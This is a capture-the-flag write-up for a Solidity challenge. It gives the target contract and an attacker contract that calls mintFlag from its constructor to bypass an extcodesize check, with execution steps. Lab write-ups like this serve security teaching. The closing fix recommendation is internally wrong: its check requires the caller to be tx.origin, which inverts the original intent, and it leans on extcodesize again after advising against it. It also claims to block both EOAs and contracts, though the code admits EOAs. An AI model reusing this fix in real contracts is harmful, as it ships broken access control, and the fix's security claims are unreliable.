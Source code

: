 # Challenge Overview
- Name: Challenge 3
- Category: Smart Contract Exploitation
- Objective: Mint the NFT associated with Challenge 3.

# Contract Code

```solidity
//SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

interface INFTFlags {
    function mint(address _recipient, uint256 _challengeId) external;
}

contract Challenge3 {
    address public nftContract;

    constructor(address _nftContract) {
        nftContract = _nftContract;
    }

    function mintFlag() public {
        require(msg.sender != tx.origin, "Not allowed");

        uint256 x;
        assembly {
            x := extcodesize(caller())
        }

        require(x == 0, "Size not zero");

        INFTFlags(nftContract).mint(tx.origin, 3);
    }
}
```

# Vulnerability Analysis

The mintFlag function has two checks:
1.	Ensures the caller `msg.sender` is not the transaction origin (tx.origin).
2.	Uses assembly to check the `extcodesize(caller())`, ensuring that the caller is not a contract with deployed bytecode.

The intention is to restrict direct EOA calls while also blocking any contract calls. However, the check is bypassable due to the fact that contracts do not have bytecode during their constructor execution phase. Therefore, a contract calling this function from its constructor will pass both checks.

# Exploit Execution

To exploit this vulnerability, we write an attacker contract that calls the mintFlag function in its constructor. During the constructor execution, the contract has no bytecode, so the extcodesize check returns 0, bypassing the restriction.

```solidity
interface IChallenge3 {
    function mintFlag() external;
}

contract Exploit {
    IChallenge3 public target;

    constructor(address _target) {
        target = IChallenge3(_target);
        target.mintFlag();
    }
}
```


## Execution Steps:
1.	Deploy the Exploit contract with the address of the Challenge3 contract.
2.	During the deployment, the constructor calls `mintFlag()` before the contract has any bytecode.
3.	The extcodesize check returns 0, bypassing the restriction.
4.	The NFT is successfully minted.

# Result & Impact

This exploit allows unauthorized users to mint NFTs without the intended restrictions. The lack of a robust access control mechanism can lead to unintended distribution of NFTs, compromising the security and exclusivity of the contract.

# Fix Recommendation

To mitigate this issue:
1.	Use the OpenZeppelin Context utility and validate the caller more securely.
2.	Avoid relying solely on extcodesize for contract detection.
3.	Implement access control mechanisms like whitelisting authorized addresses or checking against a trusted registry.

```solidity
require(msg.sender == tx.origin && !isContract(msg.sender), "Not allowed");

function isContract(address account) internal view returns (bool) {
    uint256 size;
    assembly {
        size := extcodesize(account)
    }
    return size > 0;
}
```

This fix ensures that both EOAs and contract-based attacks are effectively restricted.